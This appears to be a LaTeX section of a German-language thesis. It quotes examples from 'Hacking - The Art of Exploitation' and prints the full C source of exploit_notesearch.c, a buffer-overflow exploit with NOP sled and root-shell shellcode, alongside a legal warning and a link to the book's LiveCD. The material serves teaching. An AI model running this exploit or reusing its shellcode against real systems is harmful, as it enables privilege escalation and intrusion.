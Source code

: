 \documentclass[11pt, a4paper]{article}
\begin{document}
\subsection{Beispiele aus ``Hacking - The Art of Exploitation''}\label{subsec:beispiele}
Einige Beispiele des Buches ``Hacking - The Art of Exploitation''~\cite{erickson2008hacking} wurden direkt in diese Arbeit übernommen. Diese sind so gekennzeichnet. Die Beispiele dienen als praktische Veranschaulichung der theoretischen Beschreibung der Hacking-Attacken. Sie können auf eigene Verantwortung nachgestellt werden. Der Autor verweist ausdrücklich darauf hin, dass Attacken dieser Art ohne Zustimmung aller involvierten Parteien unter Umständen illegal und bestrafbar sind. Zur Durchführung wird ein 32bit Linux System ohne den unter \textbf{Abwehrmechanismen} aufgelisteten Sicherheitssystemen benötigt. Unter diesem Link finden sich die benötigten Programme und ein \gls{iso}-Abbild der originalen LiveCD, die zum Buch ``Hacking - The Art of Exploitation''~\cite{erickson2008hacking} mitgeliefert wurde: \url{https://drive.google.com/drive/folders/1uUnEDpJnsj8zR348teSdqvfPycfTvEGn?usp=sharing}. Das \gls{iso}-Abbild kann mit einer Virtualisierungssoftware wie Oracle VirtualBox virtualisiert werden. Es enthält bereits alle benötigten Programme. Da das System aus dem Jahr 2008 stammt und dementsprechend veraltete Sicherheitssysteme besitzt, ist ihm nur mit äusserster Vorsicht Internetzugriff zu gewähren. Die wichtigsten Programme sind im Folgenden abgedruckt.

\subsubsection{exploit\_notesearch.c}
\begin{lstlisting}
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	char shellcode[]= 
	"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
	"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
	"\xe1\xcd\x80";
	
	int main(int argc, char *argv[]) {
		unsigned int i, *ptr, ret, offset=270;
		char *command, *buffer;
		
		command = (char *) malloc(200);
		bzero(command, 200); // zero out the new memory
		
		strcpy(command, "./notesearch \'"); // start command buffer
		buffer = command + strlen(command); // set buffer at the end
		
		if(argc > 1) // set offset
		offset = atoi(argv[1]);
		
		ret = (unsigned int) &i - offset; // set return address
		
		for(i=0; i < 160; i+=4) // fill buffer with return address
		*((unsigned int *)(buffer+i)) = ret;
		memset(buffer, 0x90, 60); // build NOP sled
		memcpy(buffer+60, shellcode, sizeof(shellcode)-1); 
		
		strcat(command, "\'");
		
		system(command); // run exploit
		free(command);
	}
\end{lstlisting}
\end{document}
